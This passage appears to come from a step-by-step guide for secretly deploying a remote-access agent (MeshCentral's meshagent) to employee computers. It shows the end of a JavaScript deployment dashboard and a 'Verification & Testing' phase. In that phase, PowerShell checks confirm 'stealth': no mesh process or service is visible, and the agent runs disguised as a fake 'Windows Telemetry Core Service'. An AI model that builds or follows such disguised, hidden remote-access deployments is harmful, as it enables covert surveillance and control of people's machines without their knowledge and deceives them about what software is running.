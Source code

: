 ```html
            .then(response => response.json())
            .then(data => {
                if (data.success) {
                    statusEl.innerHTML = '<span class="status-deployed">✓ Deployment initiated successfully</span>';

                    // Wait 30 seconds, then check status
                    setTimeout(function() {
                        checkDeploymentStatus(deviceid);
                    }, 30000);
                } else {
                    statusEl.innerHTML = '<span style="color: #f44336;">❌ Deployment failed: ' + (data.error || 'Unknown error') + '</span>';
                    btnEl.disabled = false;
                    btnEl.textContent = 'Retry Deployment';
                }
            })
            .catch(err => {
                statusEl.innerHTML = '<span style="color: #f44336;">❌ Deployment error: ' + err.message + '</span>';
                btnEl.disabled = false;
                btnEl.textContent = 'Retry Deployment';
            });
        }

        // Initialize
        window.onload = function() {
            loadDevices();
        };
    </script>
</body>
</html>
```

---

### PHASE 4: Verification & Testing

#### Verification Checklist

Run these checks **from an employee perspective** to verify stealth:

```powershell
# TEST 1: Task Manager Check
# Expected: No "meshagent" or "mesh" processes visible
# Expected: "TelemetryCore" process may be visible but appears as Windows service

Get-Process | Where-Object { $_.ProcessName -like '*mesh*' }
# Should return NOTHING

Get-Process | Where-Object { $_.ProcessName -like '*telemetry*' }
# May show TelemetryCore - but this looks like legitimate Windows process

# TEST 2: Services Check
# Expected: No "Mesh Agent" service
# Expected: "Windows Telemetry Core Service" appears as normal Windows service

Get-Service | Where-Object { $_.DisplayName -like '*mesh*' }
# Should return NOTHING

Get-Service | Where-Object { $_.Name -eq 'WinTelemetryCore' }
# Should show service RUNNING with legitimate description

# TEST 3: Programs and Features Check
```